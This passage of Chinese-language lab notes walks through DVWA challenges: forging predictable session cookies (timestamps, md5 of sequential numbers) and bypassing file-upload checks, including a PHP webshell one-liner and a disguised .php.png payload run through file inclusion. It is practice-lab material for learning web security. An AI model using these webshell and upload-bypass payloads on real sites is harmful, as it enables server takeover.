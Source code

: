 
### Medium
* Cookie中的`dvwaSession`用timestamp(UTC)產生
* Cookie不會失效
* Cookie沒有設HTTPONLY flag，可用`document.cookie`存取
![](https://i.imgur.com/3UTNNaW.png)


可竄改成指定時間如:`1660198985`
![](https://i.imgur.com/0eDlHAn.png)

### High
**Request:**
```cmd!
Cookie: dvwaSession=c81e728d9d4c2f636f067f89cc14862c; dvwaSession=1660486764; PHPSESSID=b8uh613th2vqk8h7vn0518lgt4; security=high
```
**Response:**
```cmd!
Set-Cookie: dvwaSession=eccbc87e4b5ce2fe28308fd9f2a7baf3; expires=Sun, 14-Aug-2022 15:31:45 GMT; Max-Age=3600; path=/vulnerabilities/weak_id/; domain=digidvwa.azurewebsites.net
```
reverse search md5 hash: [`eccbc87e4b5ce2fe28308fd9f2a7baf3`](https://md5.gromweb.com/?md5=eccbc87e4b5ce2fe28308fd9f2a7baf3)
下一個請求回傳的dvwaSession md5 hash : [`a87ff679a2f3e71d9181a67b7542122c`](https://md5.gromweb.com/?md5=a87ff679a2f3e71d9181a67b7542122c)
分別為`3`、`4`
要偽造下一個session的請求，原始ID會是`5`
![](https://i.imgur.com/GOeSz8L.png)
md5 hash過會變成`e4da3b7fbbce2345d7772b0674a318d5`
偽造請求:
![](https://i.imgur.com/weSqJPz.png)


## File Upload
### Low
可上傳php檔，如webshell
`echo "system($_GET["cmd"])" > ok.php`

### Medium
會檢查副檔名是否為圖片
先將一句話木馬或phpinfo()存到`.png`檔
`echo "<?php phpinfo(); ?>" > exec.png`
上傳時intercept request改檔名為`exec.php`
![](https://i.imgur.com/qxoPywn.png)

### High
因為後端會完整驗證`.png`,`.jpg`
只能以jpg、php的形式上傳檔案
再用file inclusion的漏洞觸發php命令
`echo "<?php phpinfo(); ?>" > exec.php.png`
![](https://i.imgur.com/aogO3Y2.png)
在檔案的Head中，加入`GIF89a;`header來偽裝成gif
再到:
`https://digidvwa.azurewebsites.net/vulnerabilities/fi/?page=file:///var/www/html/hackable/uploads/exec.php.png`
![](https://i.imgur.com/SA6bSS6.png)
